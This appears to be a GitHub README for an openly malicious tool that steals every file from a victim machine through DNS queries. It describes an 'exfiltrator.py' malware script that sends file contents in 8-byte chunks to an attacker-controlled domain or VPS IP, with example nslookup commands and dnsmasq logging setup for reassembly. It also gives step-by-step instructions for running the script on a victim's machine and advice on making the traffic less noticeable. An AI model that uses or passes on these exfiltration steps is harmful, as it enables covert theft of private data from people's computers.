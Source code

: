 # DnsExfiltration

I do not take any responsibility for your usage

**First you need to know how a DNS works and what DNS Exfiltration stands for...**

There are two scripts:
	
	1) Malware script that steal all the files from the PC that runs it
	2) DNS server script that recomposes all the victim files 


The first script goes through the file system and It "slowly" send a part of this to a malicious DNS server. I say slowly because for each DNS query this script exfiltrate 8 byte of information.

if you are authoritative for a certain domain you have to set the script in order to execute:
	
	:~$ nslookup x.payload."yourDomain"
	
	for example:
	
	:~$ nslookup x.payload.xor.com

if You are not authoritative, You have just to configure a VPS like a DNS query forwarder and then set the script to make it run:

	:~$ nslookup x.payload."oneDomanin" "MaliciousVpsIP"

	for example:

	:~$ nslookup x.payload.xor.com 172.50.100.150


The payload length is more of 8 byte but It contains 8 byte of one file content + the file part number, the file part number is used to recompose the file parts on the DNS:
	
	A payload may be one of this:
		0 + fileName
		1 + first 8 byte of the file
		2 + the next 8 byte of the file
		3 + again 8 byte ....

From these payloads the malicious DNS script will be able to create and fill the exfiltrated file





## CONFIGURE DNS QUERY FORWARDER:
If you as me can not go to the Delegation Authority to become authoritative for a certain domain, You have to configure a VPS like a DNS query forwarder. I have used 'dnsmasq' demon, you have to configure it:
	
	Open /etc/dnsmasq.conf and append:
		log-queries
		log-facility=/tmp/dnsmasq.log
	These tells dnsmasq to save all the DNS query in a specific file that will be read by the DNS server side script





## HOW TO RUN:
1) Add your domain or the VPS IP in the "exfiltrator.py" malware script.
2) If you are authoritative configure your DNS, if you are not I suggest You to create a VPS and configure dnsmaq as I explain before.
3) Configure the right path in the "composer.py" DNS side script. You have to tell the script where It has to read all the query log. Just to be sure you have understood: Write the path You have set in the DNS configuration or dnsmasq configuration.
4) To have a try, run on the DNS server "composer.py" ( **:~$ python composer.py** ) and then run (or make it run) "exfiltrator.py" ( **:~$ python exfiltrator.py** ) script on the victim machine.
5) Wait and see 

As you can see, the malwares script wait 1 second for each query and wait 1 second for each file passed through the file system. These wait are here because i tested this on my slow VPS... you can remove these waiting or keep it, it depends on how much you want be loud.

As you can see from the code, this script supports 1 attack at the same time. This script does not currently work on Windows Systems because Windows use "\" in paths, while here i use "/" (...because i wrote and tested this on Linux...). So if you want to use this on windows make the correct very easy changes... lol.

<meta name="google-site-verification" content="JijivcS5kK7EUYWCnfiNbeYz5rIK7wojRMbiaiOnPrU" />
